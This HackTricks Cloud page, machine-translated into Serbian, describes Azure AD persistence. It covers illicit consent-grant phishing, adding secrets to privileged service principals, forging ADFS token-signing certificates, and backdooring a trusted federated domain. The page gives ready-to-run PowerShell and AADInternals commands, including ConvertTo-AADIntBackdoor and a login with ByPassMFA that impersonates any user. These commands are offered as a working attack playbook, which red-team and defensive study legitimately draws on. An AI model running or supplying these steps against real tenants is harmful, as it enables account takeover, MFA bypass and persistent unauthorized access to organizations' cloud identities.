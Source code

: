 # Az - Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Illicit Consent Grant

Podrazumevano, svaki korisnik može registrovati aplikaciju u Azure AD. Tako možete registrovati aplikaciju (samo za ciljni tenant) koja zahteva visoke dozvole sa admin pristankom (odobrite je ako ste admin) - kao što je slanje maila u ime korisnika, upravljanje rolama itd. Ovo će nam omogućiti da **izvršimo phishing napade** koji bi bili veoma **plodonosni** u slučaju uspeha.

Štaviše, mogli biste takođe prihvatiti tu aplikaciju sa svojim korisnikom kao način da zadržite pristup.

### Applications and Service Principals

Sa privilegijama Administratora aplikacija, GA ili prilagođene uloge sa microsoft.directory/applications/credentials/update dozvolama, možemo dodati kredencijale (tajni ili sertifikat) postojećoj aplikaciji.

Moguće je **ciljati aplikaciju sa visokim dozvolama** ili **dodati novu aplikaciju** sa visokim dozvolama.

Zanimljiva uloga koju bi trebalo dodati aplikaciji bila bi **Uloga administratora privilegovanih autentifikacija** jer omogućava **resetovanje lozinke** Globalnim Administratorima.

Ova tehnika takođe omogućava **obići MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Za autentifikaciju zasnovanu na sertifikatima

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federacija - Sertifikat za potpisivanje tokena

Sa **DA privilegijama** na lokalnom AD-u, moguće je kreirati i uvesti **nove sertifikate za potpisivanje tokena** i **sertifikate za dekriptovanje tokena** koji imaju veoma dugu validnost. Ovo će nam omogućiti da **se prijavimo kao bilo koji korisnik** čiji ImuutableID poznajemo.

**Pokrenite** sledeću komandu kao **DA na ADFS serveru(ima)** da kreirate nove sertifikate (podrazumevani lozinka 'AADInternals'), dodajte ih u ADFS, onemogućite automatsko obnavljanje i restartujte servis:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Zatim, ažurirajte informacije o sertifikatu sa Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Trusted Domain

Sa GA privilegijama na tenant-u, moguće je **dodati novu domenu** (mora biti verifikovana), konfigurisati njen tip autentifikacije na Federated i konfigurisati domenu da **veruje određenom sertifikatu** (any.sts u donjoj komandi) i izdavaču:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Reference

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrška HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
